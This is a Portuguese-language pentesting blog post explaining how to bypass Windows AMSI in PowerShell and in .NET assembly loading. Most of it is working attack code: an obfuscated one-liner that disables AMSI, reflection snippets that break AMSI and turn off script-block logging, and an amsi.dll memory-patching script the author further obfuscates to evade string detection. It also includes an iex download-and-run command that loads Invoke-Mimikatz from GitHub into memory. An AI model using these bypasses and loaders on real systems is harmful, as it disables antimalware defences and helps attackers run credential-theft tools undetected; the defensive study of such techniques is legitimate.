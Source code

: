 ```yaml
---
title: Bypass de processos específicos de AMSI
author: H41stur
date: 2023-03-06 01:00:00 -0300
categories: [Estudos, AMSI Bypass]
tags: [AMSI, .NET, PowerShell]
image: "/img/posts/amsi.jpg"
alt: "Pentesting Android"
---
```


![Bypass de processos específicos de AMSI](/img/posts/amsi.jpg)


- [Introdução](#introdução)
- [*Bypass* de AMSI no Powershell](#bypass-de-amsi-no-powershell)
- [Diferença entre *Bypass* do AMSI do PowerShell e Processos Específicos do AMSI](#diferença-entre-bypass-do-amsi-do-powershell-e-processos-específicos-do-amsi)


## Introdução

AMSI (*Antimalware Scan Interface*) é uma interface de programação de aplicativos (API) do Windows que permite que os aplicativos antivírus e outros softwares de segurança possam detectar e impedir a execução de *malwares* e scripts maliciosos em tempo de execução.

A AMSI foi introduzida no Windows 10 e no Windows Server 2016 e, desde então, tem sido amplamente adotada por vários aplicativos antivírus e softwares de segurança. A AMSI fornece uma camada adicional de segurança ao sistema operacional, permitindo que os aplicativos de segurança detectem *malwares* que podem passar despercebidos pelos softwares antivírus tradicionais. Ela pode ser usada para detectar e bloquear scripts maliciosos em várias linguagens de programação, como PowerShell, VBScript e JavaScript, além de outras formas de *malwares* que podem estar escondidos em arquivos ou em comunicações de rede.

Acontece que durante um teste em ambiente Windows, principalmente em *Active Directory* precisamos executar diversos scripts em PowerShell que, por muitas vezes, são considerados maliciosos (com razão) pelo AMSI. Para tanto é preciso uma forma de *bypass* deste mecanismo, a fim de "enganar" este sistema.

Existem vários métodos conhecidos, e funcionais disponíveis na internet, porém, nem todos são eficazes, pois o que é pouco divulgado, é fato de que, em algumas situações, existe mais de uma camada de AMSI para lidar.


## *Bypass* de AMSI no Powershell

Normalmente, para carregar um scrip PowerShell em memória para evitar detecção de arquivo malicioso por sntivírus, utilizamos a função `Invoke-Expression`, em casos normais, como por exemplo, importar o `Invoke-Mimikatz`, utilizamos da seguinte forma:

```powershell
iex(New-object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1')
```

Porém, o próprio AMSI do PowerShell reconhece este script como malicioso e geralmente nos retorna a seguinte mensagem:

![Detecção do AMSI](/img/posts/2023-03-06_16-19.png)

A mensagem `This script contains malicious content and has been blocked by your antivirus software.` é bem específica e nos mostra de forma clara que o AMSI considera o script como malicioso. Para tanto, existe uma infinidade de scripts públicos para o *bypass* do AMSI do PowerShell, além da possibilidade de tentar qualquer um disponível no [amsi.fail](https://amsi.fail/).

Podemos utilizar um comando comum como o abaixo para tentarmos efetuar o *bypass* como este:

```powershell
[ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1))
```

Este comando por sua vez, efetua o *bypass* do AMSI do PowerShell, nos permitindo importar o script em memória sem problemas, conforme abaixo.

![Bypass do AMSI no PwerShell](/img/posts/2023-03-06_16-39.png)

Porém, se tentarmos executá-lo, seremos apresentados a um novo erro.

![Erro na execução](/img/posts/2023-03-06_16-44.png)

```
Exception calling "Load" with "1" argument(s): "Could not load file or assembly '510976 bytes loaded from
Anonymously Hosted DynamicMethods Assembly, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null' or one
of its dependencies. An attempt was made to load a program with an incorrect format."
```
Diferente da mensagem de erro anterior, esta não nos diz absolutamente nada que a relacione com o AMSI, só informa que o formato dos binários estão incorretos.

Porém `AINDA ESTAMOS LIDANDO COM O AMSI!`

Neste caso, efetuamos o *bypass* do AMSI para o PowerShell em si, porém a `[System.Reflection.Assembly]::Load($byteOutArray)` "triggou" o `AMSI-Scan` para o binário `.NET`.

## Diferença entre *Bypass* do AMSI do PowerShell e Processos Específicos do AMSI

Primeiramente é preciso entender como os processos conhecidos de *bypass* de AMSI funcionam, abaixo estão alguns dos métodos mais utilizados:

```powershell
# forçando um erro:
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

# Desabilitando o Script Logging:
$settings = [Ref].Assembly.GetType("System.Management.Automation.Utils").GetField("cachedGroupPolicySettings","NonPublic,Static").GetValue($null);
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"] = @{}
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"].Add("EnableScriptBlockLogging", "0")

# Matt Graebers Reflection method:
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Basicamente o que estes *snippets* fazem, é desabilitar o PowerShell Script-Logging ou alteram os subvalores do *namespace* `System.Management.Automation`. O `System.Management.Automation` é basicamente o *namespace* raiz do PowerShell.

O que podemos entender, é que todas estas técnicas, são específicas para o PowerShell, e afetam apenas a interface de verificação antimalware para o código de script do próprio Powershell.

Portanto, mesmo alterando os subvalores do *namespace* `System.Management.Automation`, não iremos quebrar o `.NET AMSI-Scan`, pois este não está relacionado com o PowerShell.

Acontece que quando iniciamos uma chamada no PwerShell a `amsi.dll` é carregada em um novo processo para fazer o *hook* de qualquer entrada em linha de comando e analisar o conteúdo das chamadas para `[System.Reflection.Assembly]::Load()`. Portanto, uma das técnicas mais eficazes para o *bypass* do .NET AMSI-Scan, é com `memory patching` do `amsi.dll`. Um artigo completo sobre esta técnica pode ser encontrado [aqui](https://rastamouse.me/memory-patching-amsi-bypass/). Neste caso, a `[System.Reflection.Assembly]::Load()` não cria um novo processo, portanto, efetuar o `memory patching` resultara no *bypass* tanto do *script-code* do PowerShell quanto do .NET AMSI-Scan.

Abaixo o exemplo de *bypass*  sugerido no artigo:

```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

Na maior parte dos casos, este script é funcional, porém como o processo do .NET AMSI-Scan também procura por *strings*, como `amsi.dll`, `AmsiScanBuffer`, `Invoke-Mimikatz` entre várias outras, acredito que o script possa ser melhorado para "encodar" estas *strings*, podendo ficar da seguinte forma:

```powershell
$AQERT = @"
using System;
using System.Runtime.InteropServices;
public class AQERT {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $AQERT

$POCVBOIU = [AQERT]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$IMUNT = [AQERT]::GetProcAddress($POCVBOIU, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[AQERT]::VirtualProtect($IMUNT, [uint32]5, 0x40, [ref]$p)
$FGJT = "0xB8"
$CXWE = "0x57"
$LKAS = "0x00"
$QAWS = "0x07"
$YHNM = "0x80"
$PLMN = "0xC3"
$AZKIU = [Byte[]] ($FGJT,$CXWE,$LKAS,$QAWS,+$YHNM,+$PLMN)
[System.Runtime.InteropServices.Marshal]::Copy($AZKIU, 0, $IMUNT, 6)
```

Ao executermos este script, faremos um *bypass* "global" do AMSI, permitindo a execução do script sem erros.

![Bypass global do AMSI](/img/posts/2023-03-06_17-27.png)


## Referências

- [amsi.fail](https://amsi.fail)
- [AmsiScanBufferBypass](https://rastamouse.me/memory-patching-amsi-bypass/)
- [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)